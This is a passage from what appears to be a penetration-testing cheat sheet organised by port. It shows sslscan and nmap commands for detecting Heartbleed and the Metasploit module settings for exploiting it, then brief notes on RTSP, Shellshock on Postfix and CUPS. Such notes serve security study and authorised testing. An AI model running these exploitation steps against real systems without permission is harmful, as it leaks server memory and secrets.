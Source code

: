 First we need to investigate if the https-page is vulnerable to [heartbleed](http://heartbleed.com/)



We can do that the following way.

```
sudo sslscan 192.168.101.1:443
```

or using a nmap script

```
nmap -sV --script=ssl-heartbleed 192.168.101.8 
```

You can exploit the vulnerability in many different ways. There is a module for it in burp suite, and metasploit also has a module for it.

```
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 192.168.101.8
set verbose true
run
```

Now you have a flow of random data, some of it might be of interest to you.

### CRIME

### Breach

### Certificate

Read the certificate. 
- Does it include names that might be useful?
- Correct vhost

# Port 554 - RTSP

RTSP (Real Time Streaming Protocol) is a stateful protocol built on top of tcp usually used for streaming images. Many commercial IP-cameras are running on this port. They often have a GUI interface, so look out for that. 

## Port 587 - Submission

Outgoing smtp-port

If Postfix is run on it it could be vunerable to shellshock
https://www.exploit-db.com/exploits/34896/


## Port 631 - Cups
Common UNIX Printing System has become the standard for sharing printers on a linux-network. 
You will often see port 631 open in your priv-esc enumeration when you run `netstat`. You can log in to it here: **http://localhost:631/admin**
